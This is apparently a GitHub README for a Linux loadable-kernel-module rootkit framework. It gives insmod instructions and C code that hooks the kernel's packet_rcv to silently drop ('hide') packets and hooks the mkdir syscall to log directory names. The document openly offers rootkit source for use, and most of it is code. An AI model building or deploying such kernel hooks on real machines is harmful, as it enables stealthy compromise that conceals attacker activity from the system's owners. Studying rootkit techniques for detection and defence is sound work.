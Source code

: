 # LKM Hijacking Framework (under construction)

- a small framework made for shortening the process of hooking functions and syscalls in linux kernel module rootkits on linux kernel 5.7+

***tested on:***
```
# uname -a
Linux SniperX-D 5.8.0-48-generic #54~20.04.1-Ubuntu SMP Sat Mar 20 13:40:25 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

to use the rootkit, run:
```sh
make

insmod hooking_test_lkm.ko
```

### example for hiding packets (hooking packet_rcv):

a code sample from src/packet_hide.c:
```c
#include <linux/netfilter.h>
#include "function_hooking.h"

struct hooked_function packet_rcv; //the struct of a hooked function

int fake_packet_rcv(struct sk_buff *skb, struct net_device *dev,struct packet_type *pt, struct net_device *orig_dev)
{
	pr_info("im called! packet_rcv");
	consume_skb(skb); // "hide" the packet
	return 1;
}

int  init_packet_hide(void){
	pr_info("init_packet_hide");
	strcpy(packet_rcv.function_name,"packet_rcv"); //function's name
	packet_rcv.fake_function = &fake_packet_rcv; //fake function address
	hook_function(&packet_rcv); //hook the function
	return 1;
}

int exit_packet_hide(void){
	pr_info("exit_packet_hide");
	reset_function(&packet_rcv); //reset the function to its original state
	return 1;
}
```

### live example:
![Live_example](live_example.gif)

### example for hooking mkdir syscall (source: https://github.com/xcellerator/linux_kernel_hacking/blob/1ce0db23318d73a19e046a36da731e43c42faf41/3_RootkitTechniques/3.1_syscall_hooking/rootkit.c):

a code sample from src/open_hook.c:
```c
#include "syscall_hooking.h"

struct hooked_syscall nr_open;

typedef asmlinkage long (*orig_mkdir_t)(const struct pt_regs *);
orig_mkdir_t orig_mkdir;

asmlinkage int hook_mkdir(const struct pt_regs *regs)
{
    char __user *pathname = (char *)regs->di;
    char dir_name[NAME_MAX] = {0};

    long error = strncpy_from_user(dir_name, pathname, NAME_MAX);

    if (error > 0)
        printk(KERN_INFO "rootkit: Trying to create directory with name: %s\n", dir_name);

    orig_mkdir(regs);
    return 0;
}

int init_open_hook (void){

	nr_open.syscall = __NR_mkdir;
	nr_open.fake_syscall = &hook_mkdir;

	orig_mkdir = (orig_mkdir_t)hook_syscall(&nr_open);
	return 1;
}

int exit_open_hook (void){

	reset_syscall(&nr_open);
	return 1;
}
```

### live example:
![Live_example](live_example2.gif)
